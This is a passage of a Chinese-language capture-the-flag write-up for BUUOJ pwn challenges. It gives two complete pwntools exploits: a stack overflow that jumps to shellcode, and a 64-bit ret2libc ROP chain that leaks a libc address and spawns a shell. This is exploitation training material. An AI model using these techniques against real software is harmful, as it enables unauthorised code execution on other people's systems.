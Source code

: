 既然我们只有一次输入机会，那么我们构造完返回地址之后直接跟着shellcode好了，所以直接把地址返回到ebp+8的位置就行

`0xfff9eabc-0xfff9eaa0=0x1c`，所以最终地址偏移为0x1c

最后得到exp

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='i386',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
#elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
def dbg():
    gdb.attach(p)
    pause()

p=remote('node5.buuoj.cn',26858)
p.recvuntil('crash: ')
stack_addr=int(p.recv(10),16)
shellcode=asm(shellcraft.sh())

payload=b'crashme\x00'+b'a'*(0x16-8+4)+p32(stack_addr-0x1c)+shellcode
p.sendline(payload)

p.interactive()
```



## 34 jarvisoj_level3_x64

64位的***`ret2libc`***从栈传参变成了寄存器传参

```python

from pwn import *
from LibcSearcher import *
p = remote('node5.buuoj.cn',28910)
#p=process('./pwn')
elf = ELF('./pwn')
rdi_add = 0x4006b3
rsir15_add = 0x4006b1
write_plt = elf.plt['write']
write_got = elf.got['write']
vul_add = elf.symbols['vulnerable_function']

payload = b'a'*0x80 + b'a'*0x8
payload1=payload+p64(rdi_add)+p64(0x1)+p64(rsir15_add)+p64(write_got)+b'deadbeef'+p64(write_plt)+p64(vul_add)
p.recvuntil("Input:\n")
p.sendline(payload1)
write_addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
libc=LibcSearcher('write',write_addr)
libc_base=write_addr-libc.dump('write')
sys_add = libc_base + libc.dump('system')
binsh_add =libc_base+libc.dump('str_bin_sh')
payload2 = payload + p64(rdi_add) + p64(binsh_add) + p64(sys_add)
p.sendline(payload2)
p.interactive()
```
